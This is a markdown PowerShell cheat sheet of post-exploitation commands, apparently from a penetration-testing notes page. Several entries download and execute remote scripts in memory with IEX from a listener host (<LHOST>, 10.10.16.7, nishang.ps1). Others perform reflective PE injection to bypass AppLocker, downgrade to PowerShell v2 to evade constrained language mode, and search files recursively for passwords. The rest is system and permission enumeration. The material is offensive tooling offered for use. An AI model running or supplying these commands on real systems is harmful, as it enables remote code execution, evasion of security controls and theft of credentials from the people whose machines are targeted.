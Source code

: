 ## Extract zip file
```powershell
Expand-Archive <FILE>.zip
```

## Execute powershell in memory
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') | IEX
```

## Get files only in a directory
```powershell
(ls -File -Recurse -Force -EA SilentlyContinue).fullname
```

## Get OS architecture
```powershell
$env:processor_architecture
```

## Get Process Architecture
```powershell
[Environment]::Is64BitProcess
```

## Locally listening ports (TCP)
`netstat -ano -p tcp`

## Get ACL
```powershell
Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString
```

## get file system access
```powershell
$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'
```

## Get Process Owners
```powershell
Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize
```

## Get .NET Version
### Paths:
```
c:\windows\microsoft.net\framework
c:\windows\microsoft.net\framework64
```
### Command:
```powershell
(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion
```

## get-bytes of a string
`[System.Text.Encoding]::UTF8.GetBytes('hello')`

## Reflective Execution (Can Bypass Applocker)
```powershell
Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))
```

## CMD to powershell
```shell
powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"
```

## Start a job with alternative creds
```powershell
Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}
```

## Downgrade to powershell v2 (bypass constrained language mode)
```powershell
Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"
```

## Find files Alternate Data Streams
```powershell
$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream};
$ErrorActionPreference = 'Continue'
```

## View listening connections (with optional PID translation to Proc names)
```powershell
$PROCS = Get-Process;
(Get-NetIPAddress -InterfaceAlias Ethernet0).IPAddress, '127.0.0.1', '0.0.0.0' | % {
	Get-NetTCPConnection -ErrorAction SilentlyContinue -LocalAddress "$_" | 
	Sort-Object LocalPort | 
	Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemotePort, RemoteAddress, State |
    ? {$_.localport -lt 49152} |
	Format-Table
}
```

## Enable PowerShell Remoting
```powershell
Enable-PSRemoting -Force
```

## Search for strings in files (needs optimization)
`$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'`